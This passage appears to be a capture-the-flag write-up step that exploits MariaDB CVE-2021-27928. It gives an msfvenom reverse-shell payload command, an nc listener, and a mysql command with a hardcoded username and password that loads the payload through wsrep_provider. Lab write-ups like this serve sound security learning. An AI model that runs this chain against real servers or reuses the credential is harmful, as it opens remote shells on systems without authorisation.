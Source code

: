 There is a OS Command Execution vulnerability in MariaDB 10.2 before 10.2.37, **10.3 before 10.3.28**, 10.4 before 10.4.18, and 10.5 before 10.5.9 [CVE-2021-27928](https://jira.mariadb.org/browse/MDEV-25179):https://www.exploit-db.com/exploits/49765

Follow the PoC

1. Create the reverse shell payload
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<ip> LPORT=<port> -f elf-so -o CVE-2021-27928.so
```

1. Start a listener
```bash
nc -lvp <port>
```

3. Copy the payload to the target machine
4. Execute the payload
```bash
mysql -u zabbix -pbloooarskybluh -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so";'
```

![](/assets/img/posts/shibboleth/rooted.png)

